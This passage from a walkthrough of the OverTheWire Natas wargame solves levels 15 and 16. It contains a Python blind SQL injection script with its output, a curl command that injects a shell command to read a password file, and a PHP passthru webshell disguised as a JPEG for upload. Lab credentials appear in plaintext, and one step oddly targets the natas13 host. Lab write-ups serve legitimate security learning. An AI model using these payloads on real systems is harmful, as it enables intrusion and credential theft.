 		password = ""

		while len(password) < 32:
			for char in list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'):
				print {'username':'natas16" and SUBSTR(password, %d, 1) = "%s' % (len(password)+1, char)}
				res = requests.post('http://natas15.natas.labs.overthewire.org/', data={'username':'natas16" and binary SUBSTR(password, %d, 1) = "%s' % (len(password)+1, char)}, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
				if "user exists" in res.text:
					password += char
					print 'Current password:', password
					break

		print 'nastas16:%s' % password
		"""

		Output:
		...
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "a'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "b'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "c'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "d'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "e'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "f'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "g'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "h'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "i'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "j'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "k'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "l'}
		{'username': 'natas16" and SUBSTR(password, 31, 1) = "m'}
		Current password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "a'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "b'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "c'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "d'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "e'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "f'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "g'}
		{'username': 'natas16" and SUBSTR(password, 32, 1) = "h'}
		Current password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
		nastas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
		...
	11. natas16 password is WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
natas16:
	1. Visit http://natas16.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"
	4. Same as level 10, but they blocked us from using more characters this time. So, let's take a different approach.
	5. $ curl -d 'needle=$(cat /etc/natas_webpass/natas17 > /tmp/natas17password)hello' http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh@natas16.natas.labs.overthewire.org/
	6. Prepare our payload
		$ printf "\xFF\xD8\xFF\xE0<?php echo passthru('cat /tmp/natas17password'); ?>" > foo2.jpg
	7. $ curl -F submit="Upload File" -F filename="test.php" -F uploadedfile=@"foo2.jpg" http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org/upload/wzo3e3425v.php
		...
		The file <a href="upload/83m9pyj9wo.php">upload/83m9pyj9wo.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		...
	8. $ curl http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org/upload/83m9pyj9wo.php
		...
		????8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
		...